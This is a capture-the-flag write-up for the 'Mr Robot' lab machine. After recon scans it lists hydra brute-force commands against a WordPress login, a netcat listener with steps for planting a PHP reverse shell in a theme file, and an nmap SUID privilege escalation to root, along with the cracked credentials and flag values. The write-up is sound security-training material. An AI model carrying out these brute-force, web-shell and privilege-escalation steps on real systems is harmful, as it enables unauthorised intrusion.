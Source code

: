 # Mr Robot CTF

**Title:** Mr Robot<br>
**IP Address:** 10.10.221.177<br>

## Scans

### NMAP Scan
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-18 21:41 PST
Nmap scan report for 10.10.221.177 (10.10.221.177)
Host is up (0.27s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.49 seconds

```

### GoBuster Scan
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.221.177
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/18 21:55:23 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 236] [--> http://10.10.221.177/images/]
/blog                 (Status: 301) [Size: 234] [--> http://10.10.221.177/blog/]  
/rss                  (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/]    
/sitemap              (Status: 200) [Size: 0]                                     
/login                (Status: 302) [Size: 0] [--> http://10.10.221.177/wp-login.php]
/0                    (Status: 301) [Size: 0] [--> http://10.10.221.177/0/]          
/feed                 (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/]       
/video                (Status: 301) [Size: 235] [--> http://10.10.221.177/video/]    
/image                (Status: 301) [Size: 0] [--> http://10.10.221.177/image/]      
/atom                 (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/atom/]  
/wp-content           (Status: 301) [Size: 240] [--> http://10.10.221.177/wp-content/]
/admin                (Status: 301) [Size: 235] [--> http://10.10.221.177/admin/]     
/audio                (Status: 301) [Size: 235] [--> http://10.10.221.177/audio/]     
/wp-login             (Status: 200) [Size: 2613]                                      
/intro                (Status: 200) [Size: 516314]                                    
/css                  (Status: 301) [Size: 233] [--> http://10.10.221.177/css/]       
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/]        
/license              (Status: 200) [Size: 309]                                       
/wp-includes          (Status: 301) [Size: 241] [--> http://10.10.221.177/wp-includes/]
/js                   (Status: 301) [Size: 232] [--> http://10.10.221.177/js/]         
/Image                (Status: 301) [Size: 0] [--> http://10.10.221.177/Image/]        
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.221.177/feed/rdf/]     
/page1                (Status: 301) [Size: 0] [--> http://10.10.221.177/]              
/readme               (Status: 200) [Size: 64]                                         
/robots               (Status: 200) [Size: 41]
```

## Flags

### Flag 1
1. After the GoBuster scan, `/robots` directory was found. It shows the content:
  ```
  User-agent: *
  fsocity.dic
  key-1-of-3.txt
  ```
2. Visting the page on the directory `/key-1-of-3.txt` gives the first flag:
  ```
  073403c8a58a1f80d943455fb30724b9
  ```


### Flag 2
1. After the GoBuster scan, a `/login` page and `/robots` directory was found. The `/robots` directory shows the content:
  ```
  User-agent: *
  fsocity.dic
  key-1-of-3.txt
  ```
2. Download `fsocity.dic` by going to the directory `/fsocity.dic` and saving the raw page.
3. Brute force username and password on the `/login` page using hydra.
 
 ***For username***
  ```
  $ hydra -L fsocity.dic -p any 10.10.221.177 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30

  [80][http-post-form] host: 10.10.221.177   login: Elliot   password: any
  ```
  ***For password***
  ```
  $ hydra -l Elliot -P fsocity.dic 10.10.221.177 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30
  

  ```
  ***Credentials***: `Elliot:ER28-0652`

4. Start a `netcat` listener. Use a port that is usually trusted by firewalls.
  ```
  $ rlwrap nc -lvnp 1520
  ```
5. Use a PHP reverse shell and set the corresponding listener IP address and port.
6. In the admin Dashboard, go to Appearance > Editor, update a PHP file with the code from the PHP reverse shell (e.g. `archive.php`).
7. Load the edited PHP file (e.g. if using `archive.php`, load the URL `http://10.10.221.177/wp-content/themes/twentyfifteen/archive.php`). Reverse shell must now be activated.
8. Go to `/home/robot` directory and open `password.raw-md5` file.
  ```
  robot:c3fcd3d76192e4007dfb496cca67e13b
  ```
9. Decrypt the MD5 hash.
  ```
  Using CrackStation (crackstation.net)

                Hash    	            Type	        Result
  c3fcd3d76192e4007dfb496cca67e13b	md5	    abcdefghijklmnopqrstuvwxyz
  ```
10. Spawn TTY shell in the target machine using Python.
  ```
  $ python -c 'import pty; pty.spawn("/bin/sh")'
  ```
11. Login to `robot` account using `su robot` with the password: `abcdefghijklmnopqrstuvwxyz`.
 
 ***Credentials:*** `robot:abcdefghijklmnopqrstuvwxyz`

12. Go to `/home/robot` directory and open `key-2-of-3.txt` file.
  ```
  822c73956184f694993bede3eb39f959
  ```


### Flag 3
1. While using the account `robot`. Gain priveleged access using SUID binary from `nmap`.

  Note: This was found by locating files with SUID binary bit turned on using the command:
  ```
  $ find / -perm +6000 2> /dev/null | grep '/bin/'
  ```
2. Spawn a shell using NMAP (refer to instructions at gtfobins).
  ```
  $ nmap --interactive
  nmap> !sh
  ```
3. Now, as the `root` user, `/root` directory is now accessible. The file `key-3-of-3.txt` is located in the same directory and can be read.
  ```
  04787ddef27c3dee1ee161b21670b4e4
  ```
